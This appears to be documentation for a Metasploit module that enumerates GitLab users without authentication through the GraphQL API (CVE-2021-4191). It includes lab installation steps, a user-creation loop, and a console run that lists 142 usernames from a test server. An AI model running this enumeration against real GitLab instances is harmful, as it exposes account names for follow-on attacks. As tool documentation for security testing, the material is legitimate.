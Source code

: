 ## Vulnerable Application

### Description

This module queries the GitLab GraphQL API without authentication to acquire the list of
GitLab users (CVE-2021-4191). The module works on all GitLab versions from 13.0 up to
14.8.2, 14.7.4, and 14.6.5.

Exploitation will result in acquiring a list of valid GitLab usernames.

### Installation

#### GitLab 13.10.2 on Ubuntu 20.04.2 x64

* Download [GitLab 13.10.2](https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/focal/gitlab-ce_13.10.2-ce.0_amd64.deb)
* Install openssh-server (`sudo apt install openssh-server`)
* Install GitLab (`sudo dpkg -i gitlab-ce_13.10.2-ce.0_amd64.deb`)
* Modify the `external_url` in `/etc/gitlab/gitlab.rb` to something like `external_url http://localhost`
* Run `sudo gitlab-ctl reconfigure`
* Done!

To add a lot of users try something like this:

```
$ set -B
$ for i in {50..250}; do
curl -vv -X POST "http://10.0.0.6/api/v4/users?private_token=TOKEN&email=test$i@test.com&username=test$i&name=test$i&reset_password=True"
done
```

That should create 200 users with names such as "test50", "test51", etc.

## Verification Steps

* Follow the above instructions to install GitLab 13.10.2
* Do: `use auxiliary/scanner/http/gitlab_graphql_user_enum`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of usernames in loot.

## Options

### TARGETURI

Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. More than 100 users triggers paging logic.

```
msf6 > use auxiliary/scanner/http/gitlab_graphql_user_enum
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set RHOST 10.0.0.13
RHOST => 10.0.0.13
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set RPORT 80
RPORT => 80
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > run

[+] Enumerated 142 GitLab users
[+] Userlist stored at /home/albinolobster/.msf4/loot/20220311065704_default_10.0.0.13_gitlab.users_704600.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > cat /home/albinolobster/.msf4/loot/20220311065704_default_10.0.0.13_gitlab.users_704600.txt
[*] exec: cat /home/albinolobster/.msf4/loot/20220311065704_default_10.0.0.13_gitlab.users_704600.txt

test150
test149
test148
test147
test146
test145
test144
test143
test142
test141
test140
test139
test138
test137
test136
test135
test134
test133
test132
test131
test130
test129
test128
test127
test126
test125
test124
test123
test122
test121
test120
test119
test118
test117
test116
test115
test114
test113
test112
test111
test110
test109
test108
test107
test106
test105
test104
test103
test102
test101
test100
test99
test98
test97
test96
test95
test94
test93
test92
test91
test90
test89
test88
test87
test86
test85
test84
test83
test82
test81
test80
test79
test78
test77
test76
test75
test74
test73
test72
test71
test70
test69
test68
test67
test66
test65
test64
test63
test62
test61
test60
test59
test58
test57
test56
test55
test54
test53
test52
test51
test50
testuser
test39
test35
test34
test33
test32
test31
test30
test29
test28
test27
test26
test25
test24
test23
test22
test21
test20
test18
test19
test17
test16
test15
test14
test13
test12
test11
test10
test9
test8
test7
test6
test5
test4
test3
test2
test1
test
support-bot
alert-bot
root
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > 
```
